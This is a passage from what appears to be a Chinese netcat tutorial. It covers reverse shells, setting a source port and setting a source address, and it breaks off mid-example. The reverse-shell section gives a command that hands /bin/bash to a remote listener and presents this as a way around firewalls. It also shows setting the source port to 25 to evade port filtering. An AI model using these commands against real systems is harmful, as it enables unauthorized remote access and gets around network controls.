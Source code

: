 
#反向shell



反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。



服务端



    $nc -l 1567

在客户端，简单地告诉netcat在连接完成后，执行shell。

客户端



    $nc 172.31.100.7 1567 -e /bin/bash

现在，什么是反向shell的特别之处呢

反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。



#10. 指定源端口



假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。



服务器端



    $nc -l 1567

客户端



    $nc 172.31.100.7 1567 -p 25

使用1024以内的端口需要root权限。



该命令将在客户端开启25端口用于通讯，否则将使用随机端口。



#11. 指定源地址



假设你的机器有多个地址，希望明确指定使用哪个地址用于外部数据通讯。我们可以在netcat中使用-s选项指定ip地址。



服务器端



    $nc -u -l 1567 < file.txt

客户端
